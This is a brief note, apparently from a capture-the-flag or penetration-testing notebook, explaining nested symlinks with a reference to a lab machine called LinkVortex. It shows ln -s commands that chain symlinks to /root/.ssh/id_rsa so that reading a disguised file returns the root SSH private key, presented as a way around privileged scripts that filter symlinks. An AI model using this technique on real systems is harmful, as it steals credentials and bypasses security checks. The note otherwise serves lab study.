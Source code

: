 Symlinks can be nested. Recall that symlinks do NOT point to an inode, but to a file. As such, we can use multiple symlinks together

Example
```
# NOTE: absolute paths are preferable...

ln -s /root/.ssh/id_rsa /home/<user>/evil.txt
ln -s /home/<user>/evil.txt /home/<user>/evil.png
```

thus if we cat evil.png, we obtain id_rsa

useful if we have access to privileged scripts but sanitize for symlinks. Nested sometimes provides a workaround
	see [[LinkVortex]]
